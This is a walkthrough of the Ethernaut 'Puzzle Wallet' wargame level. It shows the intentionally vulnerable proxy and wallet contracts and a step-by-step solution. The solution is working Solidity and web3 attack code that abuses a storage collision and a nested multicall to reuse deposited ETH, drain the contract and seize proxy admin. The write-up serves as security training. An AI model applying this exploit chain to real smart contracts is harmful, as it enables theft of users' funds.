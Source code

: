 # Ethernaut 24: Puzzle Wallet

Learn how to work with more realistic code. Here we have an obvious vulnerability in storage, but to exploit it, a small chain of tasks is necessary that exploits another not so obvious vulnerability.

## The Task Intro

Next time, those friends will request an audit before depositing any money on a contract. Congrats!

Frequently, using proxy contracts is highly recommended to bring upgradeability features and reduce the deployment's gas cost. However, developers must be careful not to introduce storage collisions, as seen in this level.

Furthermore, iterating over operations that consume ETH can lead to issues if it is not handled correctly. Even if ETH is spent, msg.value will remain the same, so the developer must manually keep track of the actual remaining amount on each iteration. This can also lead to issues when using a multi-call pattern, as performing multiple delegatecalls to a function that looks safe on its own could lead to unwanted transfers of ETH, as delegatecalls keep the original msg.value sent to the contract.

Move on to the next level when you're ready!

## The Task Code

```apache
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
pragma experimental ABIEncoderV2;

import "../helpers/UpgradeableProxy-08.sol";

contract PuzzleProxy is UpgradeableProxy {
    address public pendingAdmin;
    address public admin;

    constructor(address _admin, address _implementation, bytes memory _initData) UpgradeableProxy(_implementation, _initData) {
        admin = _admin;
    }

    modifier onlyAdmin {
      require(msg.sender == admin, "Caller is not the admin");
      _;
    }

    function proposeNewAdmin(address _newAdmin) external {
        pendingAdmin = _newAdmin;
    }

    function approveNewAdmin(address _expectedAdmin) external onlyAdmin {
        require(pendingAdmin == _expectedAdmin, "Expected new admin by the current admin is not the pending admin");
        admin = pendingAdmin;
    }

    function upgradeTo(address _newImplementation) external onlyAdmin {
        _upgradeTo(_newImplementation);
    }
}

contract PuzzleWallet {
    address public owner;
    uint256 public maxBalance;
    mapping(address => bool) public whitelisted;
    mapping(address => uint256) public balances;

    function init(uint256 _maxBalance) public {
        require(maxBalance == 0, "Already initialized");
        maxBalance = _maxBalance;
        owner = msg.sender;
    }

    modifier onlyWhitelisted {
        require(whitelisted[msg.sender], "Not whitelisted");
        _;
    }

    function setMaxBalance(uint256 _maxBalance) external onlyWhitelisted {
      require(address(this).balance == 0, "Contract balance is not 0");
      maxBalance = _maxBalance;
    }

    function addToWhitelist(address addr) external {
        require(msg.sender == owner, "Not the owner");
        whitelisted[addr] = true;
    }

    function deposit() external payable onlyWhitelisted {
      require(address(this).balance <= maxBalance, "Max balance reached");
      balances[msg.sender] += msg.value;
    }

    function execute(address to, uint256 value, bytes calldata data) external payable onlyWhitelisted {
        require(balances[msg.sender] >= value, "Insufficient balance");
        balances[msg.sender] -= value;
        (bool success, ) = to.call{ value: value }(data);
        require(success, "Execution failed");
    }

    function multicall(bytes[] calldata data) external payable onlyWhitelisted {
        bool depositCalled = false;
        for (uint256 i = 0; i < data.length; i++) {
            bytes memory _data = data[i];
            bytes4 selector;
            assembly {
                selector := mload(add(_data, 32))
            }
            if (selector == this.deposit.selector) {
                require(!depositCalled, "Deposit can only be called once");
                // Protect against reusing msg.value
                depositCalled = true;
            }
            (bool success, ) = address(this).delegatecall(data[i]);
            require(success, "Error while delegating call");
        }
    }
}
```

## The Solution

This level was much harder then the previous ones. The first vulnerability was clear after first sight: We have a Proxy contract and an implementation contract that do not match in Storage. Calls made on the proxy override values on the implementation and vice virca. I know that the storage is stored on the Proxy and the logic does not contain any data - if we stick to the delegatecall pattern.

It is obvious to make the me first owner of the implementation. Why is this important? Only whitelisted users can interact with the implementation. For being whitelisted I have to be the owner. The attack makes first the attacker as an owner of the implementation by calling `proposeNewAdmin(address _newAdmin)`. This sets the pendingAdmin variable, but in a delegate call an owner address is expected here, therefore I am the owner of implemntation now, when I use a delegate call, next set is to whitelist me with `addToWhitelist`

Second step of the attack is to become the admin of the proxy contract. This is not possible through the proxy, if we could set the storage slot 1 through a delegatecall to my address, I would be owner. The variable there is `maxBalance`. `MaxBalance` is set through 2 functions: 1 `init` or `setMaxBalance`. Init seems impossible to set maxBalance, because it require `maxBalance == 0`, and it is already set to a non-zero value. `setMaxBalance`seems a way to follow, but it requires that the contract has a zero eth balance, currently it has a 0.001 eth balance.

Before we can set the maxBalance, we need to drain all eth out of the contract. I can use the `execute` function for this. This requires that I have a balances[myaddress]>=than the value. So a possible attack is to artifically rise my balance but not giving that much eth to the contract.

Calling deposit multiple times does not work because it asks each time the same value of eth. But what if in the same call I could make several calls to deposit, using the same msg.value several time? Obvious candidate is the multicall function.

This function has a simple flag check in it, only allowing one call to the deposit function, which seems safe. But hey, thinking it twice, this function allows to make multiple call, why not another multicall that contains a deposit? In this case the flag test would pass again and I can manipulate the balance - a hidden vulnerability.

After this exploit, I can retrieve all eth from the contract and set maxBalance to my address. With this I am the owner of the proxy 👍. Technically I switched between solidity and web3 calls, here my implementation:

````apache
1. Get owner of the implementation
contract.abi
Array(10) [ {…}, {…}, {…}, {…}, {…}, {…}, {…}, {…}, {…}, {…} ]
0: Object { name: "addToWhitelist", stateMutability: "nonpayable", type: "function", … }
1: Object { name: "balances", stateMutability: "view", type: "function", … }
2: Object { name: "deposit", stateMutability: "payable", type: "function", … }
3: Object { name: "execute", stateMutability: "payable", type: "function", … }
4: Object { name: "init", stateMutability: "nonpayable", type: "function", … }
5: Object { name: "maxBalance", stateMutability: "view", type: "function", … }
6: Object { name: "multicall", stateMutability: "payable", type: "function", … }
7: Object { name: "owner", stateMutability: "view", type: "function", … }
8: Object { name: "setMaxBalance", stateMutability: "nonpayable", type: "function", … }
9: Object { name: "whitelisted", stateMutability: "view", type: "function", … }
```
````

Unfortunately the method proposeNew admin is not there, I switched therefore to Remix, and with this I was the owner.

```apache
    address public proxy = 0x1;
    address public wallet = 0x1;

   function attack() public {
       bytes memory calldatas = abi.encodeWithSignature("proposeNewAdmin(address)",msg.sender);
       (bool success, ) = proxy.call(calldatas);
       if(!success){
           revert();
       }
   }
```

As immediate next step I whitelist me throught the browser console, so I am allowed to interact with the contract and fulfill the require from the onlyWhitelisted modifier.

```àppache
// whitelist the owner
await contract.addToWhitelist(player)
```

After this task, I am the owner of the implementation contract but now the admin of the proxy. For this the next step is to drain all eth out of the contract with a nested multicall.

```apache
// set the deposit function selector
let depositSelector = web3.eth.abi.encodeFunctionCall(contract.abi[2], [] )

// set the multicall selector with a nested deposit call
let multicallSelector = web3.eth.abi.encodeFunctionCall(contract.abi[6], [[depositSelector]])

// make the nested multicall
await web3.eth.sendTransaction({
    from: "myAddress",
    to: contract.address,
    data: web3.eth.abi.encodeFunctionCall(contract.abi[6], [[depositSelector, multicallSelector]]),
    value:  web3.utils.toWei('0.001', 'ether')
})


```

After this I can exploit all eth with `execute` and finally set me as proxy admin with `setMaxBalance`.

````apache
// get the eth
await contract.execute("myAddress", web3.utils.toWei('0.002', 'ether'),[])

// setMaxBalance - interestingly no casting is necessary :-)
await contract.setMaxBalance("myAddress")
```
````

Done 🎉️. This was a difficult task, especally to see the second vulnerability and exploit it correctly with abi encoding was time consuming, but finally as always solvable.

